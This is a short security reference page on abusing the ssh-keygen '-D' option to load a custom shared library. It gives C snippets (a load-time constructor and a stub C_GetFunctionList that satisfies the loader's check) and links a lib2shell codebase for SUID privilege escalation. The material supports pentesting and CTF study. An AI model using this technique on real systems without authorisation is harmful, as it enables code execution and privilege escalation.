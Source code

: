```yaml
---
title: ssh-keygen
description: A reference on features of the ssh-keygen binary, relevant for security testing, exploiting and CTF.
---
```


## Code execution/Privilege escalation

The binary `ssh-keygen` can be made to load custom libraries via the `-D` switch.

```bash
ssh-keygen -D /path/to/custom/library.so
```

The easiest way to write a library in such a way that its code is executed by ssh-keygen is to add a library constructor
`__attribute__((constructor))`.

```c
void __attribute__ ((constructor)) constructor() {
    printf("I will be executed on library load!");
}
```

Note that `ssh-keygen` makes a rudimentary check before loading a library! In particular, it checks for the existence of
a function `C_GetFunctionList()`. The function signature does not matter, but it has to be present!

```c
int C_GetFunctionList() {
	return 1;
}
```

A ready-made codebase for getting code execution is available [here](https://github.com/jonasheschl/lib2shell-ssh-keygen).
This codebase also preserves the effective user id. Useful if ssh-keygen is run with SUID for example.

## References

1. [ssh-keygen man page](https://www.man7.org/linux/man-pages/man1/ssh-keygen.1.html)
2. [Blog post by Sean Pesce](https://seanpesce.blogspot.com/2023/03/leveraging-ssh-keygen-for-arbitrary.html)
3. [Modified lib2shell codebase for exploiting the ssh-keygen behaviour](https://github.com/jonasheschl/lib2shell-ssh-keygen)

